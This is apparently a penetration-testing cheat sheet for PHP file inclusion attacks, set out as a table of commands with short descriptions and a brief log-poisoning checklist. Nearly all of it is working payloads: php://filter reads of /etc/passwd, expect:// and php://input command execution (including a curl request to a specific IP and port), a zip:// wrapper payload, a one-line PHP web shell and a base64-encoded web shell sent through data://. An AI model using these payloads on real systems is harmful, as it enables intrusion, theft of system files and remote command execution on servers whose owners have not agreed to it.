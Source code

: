 | **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |
| `index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id` | Remote execution of base64 php code |

Usage:
1. find type of server
2. find the log files
3. try iterate to log files
4. try poison log files
